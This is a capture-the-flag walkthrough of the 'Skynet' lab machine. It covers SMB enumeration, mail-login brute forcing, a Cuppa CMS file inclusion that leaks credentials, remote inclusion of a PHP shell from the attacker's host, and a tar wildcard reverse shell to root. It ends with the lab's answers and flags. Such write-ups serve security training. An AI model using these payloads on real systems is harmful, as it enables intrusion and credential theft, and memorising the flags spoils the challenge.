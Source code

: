 # Skynet

### Deploy and compromise the vulnerable machine!
Initial scan: 

      nmap 10.10.210.244 -n -Pn -p- --min-rate=1000 
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 13:58 CEST
      Nmap scan report for 10.10.210.244
      Host is up (0.046s latency).
      Not shown: 65529 closed tcp ports (conn-refused)
      PORT    STATE SERVICE
      22/tcp  open  ssh
      80/tcp  open  http
      110/tcp open  pop3
      139/tcp open  netbios-ssn
      143/tcp open  imap
      445/tcp open  microsoft-ds
      
      Nmap done: 1 IP address (1 host up) scanned in 66.63 seconds

Let's now run a more targeted scan: 

    nmap 10.10.210.244 -p22,80,110,139,143,445 -sV -sC -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 14:28 CEST
    Nmap scan report for 10.10.210.244
    Host is up (0.047s latency).
    
    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
    |   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
    |_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
    80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Skynet
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    110/tcp open  pop3        Dovecot pop3d
    |_pop3-capabilities: UIDL SASL CAPA AUTH-RESP-CODE PIPELINING RESP-CODES TOP
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    143/tcp open  imap        Dovecot imapd
    |_imap-capabilities: more listed OK have LITERAL+ ENABLE LOGINDISABLEDA0001 IDLE SASL-IR Pre-login capabilities IMAP4rev1 LOGIN-REFERRALS ID post-login
    445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Host script results:
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: skynet
    |   NetBIOS computer name: SKYNET\x00
    |   Domain name: \x00
    |   FQDN: skynet
    |_  System time: 2024-09-22T07:29:18-05:00
    |_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2024-09-22T12:29:18
    |_  start_date: N/A
    |_clock-skew: mean: 1h40m02s, deviation: 2h53m12s, median: 2s
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 20.42 seconds


The web page shows a form to be compiled, but it doesn't seem to do anything really <br />
![image](https://github.com/user-attachments/assets/59d941f8-a546-4dfb-b28a-2cb96b503cf1)<br />
A directory enumeration reveals some interesting directories: <br />
![image](https://github.com/user-attachments/assets/3fdd81c1-533f-428c-a568-b4a0ba575516)<br />
But for each of them we get a 403 Forbidden, except the last one, squirrelmail, lol. <br />
![image](https://github.com/user-attachments/assets/2c648ddb-3d5b-4444-a632-79cd2cdba4bd)<br />
This version is vulnerable to RCE by an authenticated attacker ([source](https://legalhackers.com/advisories/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html)): <br />
![image](https://github.com/user-attachments/assets/140dbc53-b486-4fee-ba8c-a38ffe37e645)<br />
I think the next step is to find a way to authenticate, we need to find some credentials. Let's try enumerating SMB shares. I used `enum4linux` for this task, and found something interesting: <br />
![image](https://github.com/user-attachments/assets/c067f4c0-3a22-4ef9-94f3-e3202e2221af)<br />
The target system has two local users: nobody and milesdyson. The output also shows the enumerated shares: <br />
![image](https://github.com/user-attachments/assets/9b3b21ed-a5b7-46b9-9360-64f85dfa4dc6)<br />
Let's try to access the anonymous share anonymously: `smbclient //10.10.190.140/anonymous -U anonymous -p 445`. I found an interesting file: <br />
![image](https://github.com/user-attachments/assets/962ab4d0-2a3c-4509-88e8-64764f95380b)<br />
Also if we access the logs folder, we are provided with 3 txt files: <br />
![image](https://github.com/user-attachments/assets/9e0de88a-536d-490d-91b4-7515b9b1357b)<br />
`log2.txt` and `log3.txt` are empty, but `log1.txt` contains a wordlists. At this point I think it's clear what we have to do: let's try to access Miles share using the given wordlist. I'll use hydra: `hydra -l milesdyson -P log1.txt smb://10.10.190.140 ` <br />
![image](https://github.com/user-attachments/assets/b6845aa7-7196-40ca-9ed3-025b9d50d922)<br />
Nope, this is not the right path. Next thing I wanna try is to bruteforce the squirrel mail login form using "milesdyson" as username, and the given wordlist as passwords. So first of all intercept the request using burpsuite, and set the password field as the target for intruder: <br />
![image](https://github.com/user-attachments/assets/3de3023a-f9e9-40a0-a5d2-ea27ed442b3e)<br />
Now go on "Payloads" and load our given wordlist as payload: <br />
![image](https://github.com/user-attachments/assets/c4fb84d3-25c9-45f8-9a3a-02d928954e82)<br />
Now start the attack. The very first thing I notiece is that the payload `cyborg007haloterminator` has different response parameters with respect to other payloads: <br />
![image](https://github.com/user-attachments/assets/62b45807-3564-4391-b06b-c8c15f8c147d)<br />
so I try to log in as `milesdyson:cyborg007haloterminator`, and it worked! <br />
![image](https://github.com/user-attachments/assets/dd896870-0b25-45bb-b8b9-04a8b9443494)<br />
There it is, in the first email there's the new SMB password for Miles: <br />
![image](https://github.com/user-attachments/assets/cd1e6d37-4126-46a6-8fd6-83471c3c20eb)<br />
Let's log in: `smbclient //10.10.190.140/milesdyson -U milesdyson -p 445`. There's a bunch of scientific pdf files, Miles must be some sort of AI teacher or something. After navigating a bit inside the share, i found a file named "important.txt" inside a directory called "notes": <br />
![image](https://github.com/user-attachments/assets/0e80c450-98f8-4f50-8f58-58d6ec257aa8)<br />
Let's download it and see what's in it. <br />
![image](https://github.com/user-attachments/assets/0ca23a05-0ed0-4624-b8ea-d255e58b69dc)<br />
Damn, Miles really cares about his wife. Anyway, let's access `http://target_IP/45kra24zxs28v3yd`: <br />
![image](https://github.com/user-attachments/assets/7e7a4d45-f47c-446f-aa17-f660336d81ee)<br />
Oh yes he is infact an AI specialist. The page itself seems empty, the source code doesn't contain any comments. Let's try some directory enumeration with `obuster dir -u http://10.10.190.140/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`. Yup, there's something there <br />
![image](https://github.com/user-attachments/assets/8cf719c1-1d90-4971-a17e-7f9ed064ede8)<br />
At this point I was stuck for a while, I didn't find anything, default credentials, sql Injection, etc. After a while I discovered that this version is vulnerable to File inclusion, even anauthenticated, [here](https://www.exploit-db.com/exploits/25971). <br />
![image](https://github.com/user-attachments/assets/52294868-bdee-44a7-86b2-ba222c2ea82d)<br />
So for example if we try to access `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`, it actually works and shows us the /etc/passwd file. <br />
![image](https://github.com/user-attachments/assets/3dd36bb6-f73b-45fa-8feb-e089289ce502)<br />
Let's try downloading the configuration file: `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php`. We get the following base64 encoded string in return. Decode it: 

      <?php 
      	class Configuration{
      		public $host = "localhost";
      		public $db = "cuppa";
      		public $user = "root";
      		public $password = "password123";
      		public $table_prefix = "cu_";
      		public $administrator_template = "default";
      		public $list_limit = 25;
      		public $token = "OBqIPqlFWf3X";
      		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
      		public $upload_default_path = "media/uploadsFiles";
      		public $maximum_file_size = "5242880";
      		public $secure_login = 0;
      		public $secure_login_value = "";
      		public $secure_login_redirect = "";
      	} 
And we got another set of credentials, `root:password123` These might be usefull later. Now let's try to include a malicious file from our own machine, let's call it shell.php (the code is provided in the file "shell.php" of this folder). Open a netcat listener `nc -lnvp 4444`, set up a web server with `python3 -m http.server 8000`, and upload it to the target machine with the following URL: `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.85.53:8000/shell.php`. There we go: <br />
![image](https://github.com/user-attachments/assets/f97120a9-1b82-4629-a34e-9a4818959216)<br />
![image](https://github.com/user-attachments/assets/a363b8d5-dd59-46cc-9082-160316c68c6b)<br />
And we have our user flag (the answers are all at the end of the writeup). Now let's stabilize the shell: 

            python3 -c 'import pty;pty.spawn("/bin/bash")'
            CTRL + Z
            stty raw -echo; fg
            export TERM=xterm
After some enumeration(I used linpeas), I found an interesting cron job: <br />
![image](https://github.com/user-attachments/assets/7eda4bd9-006b-45c3-8502-599cbae34fee)<br />
It runs every minute and it is owned by root. We also have read access to that file: <br />
![image](https://github.com/user-attachments/assets/acc04231-636e-448c-ab41-108fa5abd949)<br />
The command `tar cf /home/milesdyson/backups/backup.tgz *` will run a backup of all the files in the current directory. Since we are www-data, we have access to that directory. We can exploit this by using tar wildcards; move to `/var/www/html` and run the following commands: 

      echo "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1" > shell.sh
      touch -- '--checkpoint=1'
      touch -- '--checkpoint-action=exec=bash shell.sh'
A "checkpoint" is essentially a tar option that tells tar to stop and do something. In particular we are telling tar to execute the reverse shell script. So open a netcat listener `nc -lnvp 4445` and wait a minute: <br />
![image](https://github.com/user-attachments/assets/cb10878b-3537-45c6-8a9c-dbb805c23b2d)<br />
We are root :)

                                                            
- What is Miles password for his emails? `cyborg007haloterminator`
- What is the hidden directory? `/45kra24zxs28v3yd`
- What is the vulnerability called when you can include a remote file for malicious purposes? `remote file inclusion `
- What is the user flag? `7ce5c2109a40f958099283600a9ae807`
- What is the root flag? `3f0372db24753accc7179a282cd6a949`
